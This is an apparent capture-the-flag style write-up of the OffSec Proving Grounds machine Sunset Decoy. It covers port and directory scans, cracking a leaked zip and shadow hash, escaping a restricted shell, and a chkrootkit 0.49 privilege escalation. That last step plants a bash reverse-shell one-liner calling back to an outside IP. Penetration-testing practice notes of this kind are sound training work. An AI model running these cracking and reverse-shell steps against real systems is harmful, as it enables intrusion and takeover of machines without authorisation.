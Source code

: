 ```yaml
---
title: OffSec PG - Sunset Decoy
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.80.85`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.80.85`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                       |
| -------- | ----------- | ------------------------------------------------ |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)   |
| 80       | HTTP        | Apache httpd 2.4.38 &rarr; *Identified file save.zip* |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.80.85 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

No results were listed.

---

## Exploitation

Retrieved the zip file using `curl http://192.168.80.85/save.zip --output save.zip`.

The zip file is locked. Therefore, cracking with fcrackzip and rockyou password list gives the password as `manuel`. Extracting it gives the files passwd, group, hostname, shadow and sudoers from the `/etc/` directory.

The users identified are `root` with bash and user `296640a3b825115a47b68fc44501c828` with restricted bash.

The shadow file contains the hashed password for the identified user. Therefore, sending the entry to john for cracking gives the credentials as `296640a3b825115a47b68fc44501c828:server`. This can be used for sshing into the server.

The shell received is a restricted shell. Tries many things to escape from the shell. The only thing that worked was to append `-t "bash"` to the ssh command. This allowed the use of `/` in commands and therefore `/bin/cat`, which gives the user flag.

---

## Privilege Escalation

[PSPY](https://github.com/DominicBreuker/pspy) can be run on the machine. This gives a number of processes running. By looking at the output, the process `/bin/sh /root/chkrootkit-0.49/chkrootkit` is being run for about 5 seconds every minute. This coincides with the AV scan being run using the honeypot binary in the user's home directory.

Searchsploit lists a privilege escalation exploit. This exploit states that a file can be created by the name `update` and made executable. It will be executed by `chkrootkit` whenever it is run. The file must be placed under the `/tmp/` directory.

Therefore, a reverse shell code can be inserted into the file &rarr; `/bin/bash -i >& /dev/tcp/192.168.49.80/3002 0>&1`.

After a minute, a reverse shell is obtained as `root`. This gives the root flag.

---
